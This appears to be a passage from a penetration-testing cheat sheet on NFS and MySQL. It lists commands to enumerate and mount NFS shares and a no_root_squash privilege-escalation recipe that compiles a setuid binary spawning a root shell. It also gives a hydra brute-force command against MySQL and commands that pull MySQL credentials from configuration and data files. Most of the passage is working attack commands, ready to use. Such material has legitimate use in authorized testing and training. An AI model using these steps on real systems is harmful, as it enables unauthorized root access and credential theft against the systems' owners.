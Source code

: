 ```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

### Mount a share

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

### NFS misconfigurations

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```

---

## MYSQL - 3306

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

### Extracting MySQL credentials from files

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
